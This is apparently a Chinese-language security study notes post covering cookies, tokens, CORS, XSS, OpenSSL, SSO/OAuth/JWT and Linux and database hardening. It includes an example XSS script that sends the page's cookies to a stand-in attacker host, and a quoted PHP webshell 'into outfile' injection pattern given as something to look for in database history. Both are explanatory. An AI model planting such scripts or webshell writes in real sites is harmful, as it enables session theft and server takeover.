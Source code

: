```yaml
---
title: "信息安全：合集"
date: 2023-10-26T16:17:36+08:00
categories:
- 计算机科学与技术
- 信息安全
tags:
- 信息安全
thumbnailImagePosition: left
thumbnailImage: /images/thumbnail/security.jpg
---
```

本文从原理出发，记录所有的信息安全中的加解密知识，库，实用工具。也包括鉴权、访问控制、抗抵赖相关知识。
<!--more-->

## 基础假设
1. 从系统角度来说，任何应用都是不安全的，不应被信任的，因此不应给予超过必需部分的权限和数据。
2. 任何用户操作都是不安全的，不应被信任的，对输入要进行专门的检查。

## 基础术语
1. Web
    1. Cookie：用于在客户端存储一些用户信息的**小型文本文件**。一般用于实现Session会话，是Http协议应对无状态问题的一种解决方式。
        - 分类：
            - 第一方和第三方Cookie：第一方就是当前站点页面A的域名的Cookie，第三方是当前站点页面A内的第三方页面内容B（比如一个植入广告）专用的Cookie。可以用于分析页面之间的关系，比如记录用户广告点击来源，分析行为。
            - 会话Cookie、持久Cookie、安全Cookie、HttpOnly Cookie
        - 由服务器端实现会话时，服务器端相当于成为了有状态的服务。在设计上并不好，需要考虑容灾问题。
    2. Token：经过加密处理的**一段数据**。可存储在客户端浏览器缓存、localStorage、sessionStorage。服务器上存储在数据库中。移动端设备支持更好，支持跨程序调用。安全性、可扩展性、跨域支持能力都更强，更灵活。
        - 和Cookie存在多方面差异：安全性、可扩展性、跨域支持、对服务器压力、时效性。但和Cookie并不是并列关系，Token也可以存储在Cookie中。
        - Token完全由应用管理，设计上能支持服务器的无状态服务，即在Token中保存所有必须的用户数据。
        - 分类：Access Token（标识用户身份的令牌）、Refresh Token（用于刷新用户身份标识的专用令牌）
        - 实现方式：JWT（头部.负载.签名）描述了必须的元数据/数据字段/数字签名
        - 参考：[傻傻分不清之 Cookie、Session、Token、JWT](https://juejin.cn/post/6844904034181070861)、[JSON Web Token 入门教程](https://www.ruanyifeng.com/blog/2018/07/json_web_token-tutorial.html)
    3. User-Agent：浏览器等客户端向Http请求头中添加的字段，用于填写客户端的系统和软件信息。
    4. 跨域：一种和鉴权相关的安全策略问题。出现在浏览器语境下，是浏览器为了用户的安全性做出的策略。其目的在于通过控制跨域请求，来避免CRSF（跨站请求伪造）和XSS（跨站脚本攻击）
        - 网页发起跨域请求，需要前端（浏览器）和后端同时支持
        - 原理：
            - 简单请求：HEAD/GET/POST且请求头信息不超过允许的字段。浏览器会在请求头中自动添加Origin字段，并填充当前域名A。服务器接收到之后决定该域名A是否允许发起该跨域请求。并填充```Allow-Control-Allow-Origin```、```Allow-Control-Allow-Credentials```、```Access-Control-Expose-Headers```等字段。
            - 非简单请求：所有的其他请求，都会先发送预检请求OPTIONS，主要是询问服务器是否支持指定的请求方法和额外的请求头字段，即```Access-Control-Request-Method/Headers```。只有服务器允许，浏览器才会发送正式请求。
        > 从原理可以看出，CORS配置对后端有一定要求，如果对Origin的检查、以及各Allow字段配置不正确，都会造成CORS漏洞。
        - XHR请求是否携带Cookies在不同浏览器上不明确，最好手动设置
        - 参考：[网页攻击 和 跨域 的相关问题梳理](https://blog.csdn.net/s18813688772/article/details/121910084)、[CORS攻击原理介绍和使用](https://cloud.tencent.com/developer/article/1728658)

## 常见攻击手段 
1. Web
    1. XSS：跨站脚本攻击。最常见的方式是在一个用户可创作内容的网站中，插入一段可执行代码，完成指定动作。
        ```html
        <script>
            // new Image().src = "http://stole.you.cookie.com/save?c=" + encodeURI(document.cookie);
        </script>
        ```
        - 应对方式：
            - 对于Cookie的窃取，可以通过在Set-Cookie头中设置HttpOnly标识，禁止页面脚本获取Cookie。但这只是最基本的，实际上仍有HttpOnly绕过手段。
            - 检查用户输入，禁止其中的脚本执行
    2. 

## OpenSSL
- 注意点
    1. OpenSSL的风格是，内部结构**不导出**，因此对于```ECDSA_SIG```、```BIGNUM```等，不能直接通过成员访问操作符```->```来获取成员。正确的方式是使用相对应的API。例如
        ```c
            // 对ASN.1的DER编码进行解码
        	ECDSA_SIG* result = d2i_ECDSA_SIG(&sig, (const unsigned char**)&derData, derlen);
            // BIGNUM也是用BN_new获取
            const BIGNUM* pr = BN_new();
            const BIGNUM* ps = BN_new();
            // 对result->r和result->s的获取
            ECDSA_SIG_get0(result, &pr, &ps);
        ```
- Windows下的编译：
    - 步骤：
        1. 安装Perl
        2. ```mkdir your-build ; cd your-build```
        3. ```perl Configure VC-WIN64A no-asm --prefix=D:\path\to\install```，生成makefile等，更多[配置说明](https://wiki.openssl.org/index.php/Compilation_and_Installation)
        4. 调用Visual Studio的Native Tools Command Prompt，执行```nmake```
        5. ```nmake install```
    - 参考：[win10 x64 visual studio 2019 编译 OpenSSL-1.1.1](https://blog.csdn.net/qiuxue110/article/details/115560240)

## 鉴权
1. 单点登录SSO（Single Sign On）：在一个多应用系统中，提供一处登录处处登录，一处登出处处登出的效果。参考[单点登录解决方案](https://cloud.tencent.com/developer/article/1636664)。
    1. Cookie：
        - 不跨域：将多个应用的Session进行共享，并将其SessionId放到Cookie中交给客户端。可以实现不跨域（不跨顶级域）前提下的单点登录。
        - 跨域：通过引入CAS（Central Authentication Service）服务器，提供SSO会话。在访问应用时，会重定向到SSO会话服务，登录并提供SSO会话的Cookie，和为应用提供的Service Ticket。应用会去CAS服务器查验Service Ticket是否有效。
    2. OAuth：一种认证授权机制，通过在服务端和客户端之间增加一个授权层，来向第三方颁发令牌。它主要是为了用来提供不同系统之间API的授权服务（A应用想调用B应用的API接口）。当然也可以用于单点登录。参考[理解OAuth 2.0](https://www.ruanyifeng.com/blog/2014/05/oauth_2_0.html)
        - 术语：第三方应用程序（企图获得API授权的程序）、服务提供商（API提供者）、资源所有者（用户）、用户代理（浏览器）、认证服务器（API提供者用于执行OAuth）、资源服务器（API提供者内部）
        - 流程：第三方应用程序访问授权层，在资源所有者控制下授权令牌（可指定范围和有效期），服务提供商根据令牌想第三方应用程序提供服务。
        - 模式：授权码模式（第三方服务器-服务提供商服务器）、简化模式（用户代理-服务器提供商服务器）、密码模式（直接给第三方密码）、客户端模式（第三方把自己视作用户）
    3. JWT（JSON Web Token）：JWT本身只是一种Token的实现方式，但同时这种方式能够很好的支持单点登录。用户在登录之后，会获取到认证服务生成的JWT，每次访问均携带JWT，由网关等对JWT进行核验。由于JWT本身并不一定加密（只是一定会做签名），所以需要搭配https，总之应当尽量保证JWT不被泄露。

## 具体实践
### Linux系统
1. 配置审计日志
    ```bash
    # 记录所有对/etc/passwd文件的读取行为，以pass_audit做key插入审计日志
    auditctl -w /etc/passwd -p r -k pass_audit
    ```
1. 配置更详细的访问控制ACL
    ```bash
    # 对用户userA，设置允许对/opt/test.txt具备读写权限
    setfacl -m u:userA:rw /opt/test.txt
    ```
1. 安全的删除文件
    ```bash
    # 使用伪随机数据填充/opt/secret.txt（默认三次），并删除文件
    shred /opt/secret.txt && rm /opt/secret.txt
    ```
1. 数据完整性和摘要
    ```bash
    md5sum xxxfile
    # 不同的sha算法生成的摘要长度不同
    sha512sum xxxfile
    ```
### 数据库
1. 设置密码策略
    ```mysql
    
    ```
1. 从数据库历史中查看可疑命令
    ```mysql
    // 查看是否有写入了文件的注入行为，例如
    select "<?php eval...?" into outfile xxx
    ```
